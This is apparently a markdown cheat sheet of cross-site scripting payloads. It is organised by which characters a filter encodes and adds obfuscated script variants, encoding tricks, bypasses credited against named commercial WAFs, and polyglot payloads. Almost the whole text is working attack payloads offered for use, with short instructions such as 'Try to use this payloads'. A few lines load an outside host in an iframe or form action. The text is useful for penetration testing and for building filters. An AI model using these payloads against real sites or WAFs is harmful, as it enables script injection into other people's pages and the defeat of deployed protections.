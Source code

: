 ### 1.If you cannot escape from the attribute (" is being encoded or deleted)

Try to use this payloads :
```js
1) <a href="javascript:alert(1)">Click</a>

2) <a href="&#01;javascript:alert(1)">Click</a>

3) <a href="javascript:{ alert`0` }">Click</a>

4) <a src="google.com" onclick="alert(1)">Click</a>

```
Or try to replace " with \u0022, > with \u003e and < with \u003c. So the payload will be:
```js
4) \u0022\u003e\u003cimg src=x onerror=alert(1)\u003e\u003cx y=\u0022
```

### 2.If you can escape from the attribute but not from the tag (> is encoded or deleted)

Try to event handlers :
```js
1) <input   value"XXXXXXX"   onclick=alert(1)  >Click</input>

2) <input  type:"text" value="XSS"  accesskey="x" onclick="alert(1)" >

3) <img src=x  onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

4) </div><a  src="google.com"  href="javaSCRIPT&colon;alert(/xss/)">XSS</a>

5) <a  href=https://google.com onclick=alert(document.location.hash.substring(1))#{saasasasas}>Click</a>
```
or use encodes:
```js
use Unicodes - UTF8 - UTF16 - UTF32
%3cscript%3e
%253cscript%253e
&lt;script&gt;

%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>

Burp Suite > Convert Selection > HTML > HTML-encode all character
<a href="javascript:alert(1)">Click</a> =
&lt;&#97;&#32;&#104;&#114;&#101;&#102;&#61;&quot;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&quot;&gt;&#67;&#108;&#105;&#99;&#107;&lt;&#47;&#97;&gt;
```
### 3.If alert is encoded or deleted

Try to use this payloads :
```js
1) <script>$='',_=!$+$,$$=!_+$,$_=$+{},_$=_[$++],__=_[_$$=$],_$_=++_$$+$,$$$=$_[_$$+_$_],_[$$$+=$_[$]+(_.$$+$_)[$]+$$[_$_]+_$+__+_[_$$]+$$$+_$+$_[$]+__][$$$]($$[$]+$$[_$$]+_[_$_]+__+_$+"($)")()</script>

2) <script>[[,$,_,$$,__,$_,_$,$$$,$__,,___]=[![]+[]+!![]][+[]]+[][[]]],$$_=[][$+$_],[,,,$_$,,,_$$,,,,,__$,_$_]=[...$$_+[]],$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$$$_[$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$]($+_+__+_$+$_+__$+[+!!$]+_$_)()</script>

3) <script>([,O,B,J,E,C,,]=[]+{},[T,R,U,E,F,A,L,S,,,N]=[!!O]+!O+B.E)[X=C+O+N+S+T+R+U+C+T+O+R][X](A+L+E+R+T+`(1)`)()</script>
   
4) <html>
   <body>
   <head>
   <meta charset="utf-8">   
   </head> 
   <script>
   ᐁ='',ᐃ=!ᐁ+ᐁ,ᐅ=!ᐃ+ᐁ
   ᐊ=ᐁ+{},ᐄ=ᐃ[ᐁ++],ᐆ=
   ᐃ[ᐋ=ᐁ],ᐒ=++ᐋ+ᐁ,ᐗ
   =ᐊ[ᐋ+ᐒ],ᐃ[ᐗ+=ᐊ[ᐁ]
   +(ᐃ.ᐅ+ᐊ)[ᐁ]+ᐅ[ᐒ]+ᐄ
   +ᐆ+ᐃ[ᐋ]+ᐗ+ᐄ+ᐊ[ᐁ]
   +ᐆ][ᐗ](ᐅ[ᐁ]+ᐅ[ᐋ]+ᐃ
   [ᐒ]+ᐆ+ᐄ+"`ᐁᐃ`")()
   </script>
   </html>
   </body>

5) <script>prompt(1)</script>

6) <a"/onclick=(confirm)()>Click Here!

7) <script>/&/-alert(1)</script>
<script>/&amp;/-alert(1)</script>

8) %00%00%00%00%00%00%00<script>alert(1)</script>     (1.Null bytes are output   2.There is no space character immediately before)

9) <sVg OnPointerEnter="location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`">

10) <bleh/onclick=top[/al/.source+/ert/.source]&Tab;``>click 

11) <script>alert.call(null,1)</script>   (alert.call(%20, "XSS");)

12) <script>confirm.call(null,1)</script>

13) <script>prompt.call(null,1)</script>

14) <script>alert.apply(null, [1])</script>

15) <iframe src=//14.rs>

16) <form><button formaction=http://14.rs>Hacked</form>
```

### 4.If space is encoded or deleted
```js
use tab url encode : %09
<input%09value"XXXXXXX"%09onclick=alert(1)>Click</input>
```

### 5.If () is encoded or deleted
```js
<script>alert`1`</script>
```

### 5.If <script> is encoded or deleted try other tags like:
```js
SVG, img, iframe 
```
   
### 6.Some WAF bypass:
```js
@vanshitmalhotra | Bypass AWS WAF -// 
Add "<!" (without quotes) before your payload and bypass that WAF. :)
eg: <!<script>confirm(1)</script>

@black0x00mamba | Bypass WAF Akamaighost & filtered onload, onclick, href, src, onerror, script, etc 
<img  sr%00c=x o%00nerror=((pro%00mpt(1)))>

DotDefender WAF bypass by @0xInfection 
<bleh/ondragstart=&Tab;parent&Tab;['open']&Tab;&lpar;&rpar;%20draggable=True>dragme

@LooseSecurity | Updated CloudFlare bypass (bypasses virtually all WAF you'll encounter in the wild):
<iframe/src='%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A:prompt`1`'>
Javascript URI cushioned between carriage returns with a non-bracketed prompt.

@daveysec | Was able to bypass Imperva Incapsula WAF with:
<svg onload\r\n=$.globalEval("al"+"ert()");>

@rodolfoassis | Wordfence 7.4.2
<a href=&#01javascript:alert(1)>

rodolfoassis | Sucuri CloudProxy (POST only)
<a href=javascript&colon;confirm(1)>

rodolfoassis | ModSecurity CRS 3.2.0 PL1
<a href="jav%0Dascript&colon;alert(1)">
   
@brutelogic | Cloudflare
<Svg Only=1 OnLoad=alert(1)>
   
<script>{onerror=alert}throw 1</script> -->

<script>eval.call`${'alert\x2823\x29'}`</script>

<img src=x onerror=this.innerHTML=String.fromCharCode(60,105,109,103,32,115,114,99,61,39,120,39,32,111,110,101,114,114,111,114,61,39,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41,59,39,62)

### 7.Some good stuffs:
https://github.com/Walidhossain010/WAF-bypass-xss-payloads
https://aswingovind.medium.com/content-spoofing-yes-html-injection-39611d9a4057
```

### 7.XSS PolyglotsPolice: revolving allow you to test multiple XSS scenarios with ONE payload.  Work smarter not harder:
![xss](https://user-images.githubusercontent.com/63053441/148800150-58f87374-41ad-4ea8-8887-510c652c7452.jpg)
```js
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

